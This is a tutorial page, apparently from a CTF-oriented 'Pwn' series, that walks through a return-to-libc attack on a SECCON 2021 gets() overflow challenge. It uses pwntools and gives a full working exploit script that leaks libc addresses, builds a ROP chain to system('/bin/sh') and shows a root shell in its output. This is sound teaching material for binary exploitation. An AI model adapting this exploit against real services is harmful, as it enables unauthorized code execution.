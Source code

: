 ```yaml
---
title: Return To Libc - Automated by Pwntools
date: 0005-01-01T00:00:06Z
draft: false
description: Pwn for Fun and Profit is a progressive tutorial series that aims to be noob-friendly enough for anyone to dive in, and equip them with the skills to come out with substantial knowledge on The Art of Pwn.
toc: false
---
```


This is a continuation of [Return 2 LIBC Part 1](/pwn/rop/ret2libc1). If you have not read it, please read it before continuing.

<br>

## Recap

In the last part of `Ret2Libc`, we exploited this simple program _(albeit painfully)_ from SECCON 2021;

```c
// gcc src.c -no-pie -fno-stack-protector -o chall -Wall -Wextra
#include <stdio.h>

int main() {
  char str[0x100];
  gets(str);
  puts(str);

}
```

This time, we will do it without finding any addresses from all over the place.

<br>

## Exploit

First, we need to know the `LIBC` that we are running _(or if you are connecting to a remote-service, you have to know their `LIBC`, or leak it)_


```
➜ ldd ./chall
 linux-vdso.so.1 (0x00007fff1b598000)
 libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fec9057f000)
 /lib64/ld-linux-x86-64.so.2 (0x00007fec90763000)
```

Our Libc is at `/lib/x86_64-linux-gnu/libc.so.6`.

Now let's write our script to firstly leak our `gets()` address.

This time, we will use our `PwnTools` module to set the `context`, our `binary` and our `libc`.

Using PwnTools `ROP` module, we can call symbols and easily craft our `ROP chain`.

We can also easily find our addresses with `elf.got.gets`.

```py
from pwn import *

context.binary = elf = ELF('chall')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process('chall')

rop = ROP(elf)
rop.puts(elf.got.gets)
rop.main()

p.sendline(flat({ 264: rop.chain() }))
p.interactive()
```

![image](/pwn/images/ret2libc3.png)

As you can see we successfully managed to get our leaks and loop back to main().

<br>

#### Final Exploit Script

Let's finish up the rest of our script.

```py
from pwn import *

p = process('./chall')
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.binary = elf = ELF('chall')

rop = ROP(elf)
rop.puts(elf.got.gets)
rop.main()

p.sendline(flat({ 264: rop.chain() }))
p.recvuntil(cyclic(264))
leak = u64(p.recvline().strip().ljust(8,b'\x00'))
leak2 = u64(p.recvline().strip().ljust(8,b'\x00'))

log.info(f"leak1: {hex(leak)}, leak2: {hex(leak2)}")

libc.address = leak2 - libc.sym.gets
binsh = next(libc.search(b"/bin/sh"))

rop = ROP([libc, elf])
rop.system(binsh)

p.sendline(flat({ 264: rop.chain() }))
p.interactive()
```

Output:

```
[x] Starting local process './chall'
[+] Starting local process './chall': pid 11788
[*] leak1: 0x4011f3, leak2: 0x7f3dd7de2b60
[*] Switching to interactive mode

$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
```

Voila!  We have pwned it without needing to find a single address manually.


